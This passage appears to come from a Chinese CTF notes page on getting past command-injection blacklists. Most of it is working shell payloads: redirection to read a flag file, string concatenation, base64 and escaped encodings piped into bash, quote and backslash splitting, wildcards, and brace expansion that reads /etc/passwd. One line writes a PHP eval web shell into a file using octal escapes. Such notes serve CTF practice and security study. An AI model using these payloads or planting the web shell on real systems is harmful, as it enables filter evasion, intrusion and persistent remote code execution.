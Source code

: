 + 重定向符<>

```shell
cat<>flag
cat<flag
```

#### 黑名单绕过

+ 拼接

```shell
a=c;b=at;c=flag;$a$b $c
```

+ 利用已存在的资源

从已有的文件或者环境变量中获得相应的字符。

+ 编码

```shell
`echo "Y2F0IGZsYWc="|base64 -d`
echo "Y2F0IGZsYWc="|base64 -d|bash

$(printf "\x63\x61\x74\x20\x66\x6c\x61\x67")

#可以通过这样来写webshell,内容为<?php @eval($_POST['c']);?>
$ {printf,"\74\77\160\150\160\40\100\145\166\141\154\50\44\137\120\117\123\124\133\47\143\47\135\51\73\77\76"} >> 1.php
```

+ 单引号、双引号

```shell
c""at fl''ag
c'a't f'l'ag
```

+ 反斜线 \

```shell
c\at fl\ag
```

+ 通配符

```shell
/?in/?s => ls

* 0到无穷个任意字符
? 一个任意字符
[ ] 一个在括号内的字符，e.g. [abcd]
[ - ] 在编码顺序内的所有字符
[^ ] 一个不在括号内的字符
[! ] 同 ^
cat fl[0-z]g

echo d{a,e,i,u,o}g => dag deg dig dug dog
echo {fl,fla}{ag,g} => flag flg flaag flag
echo fl{0..z}g => fl1g,fl2g,...,flyg,flzg

花括号拓展{OS_COMMAND,ARGUMENT}
在Linux bash中还可以使用{cat,/etc/passwd}来绕过
这里没实验成功
```
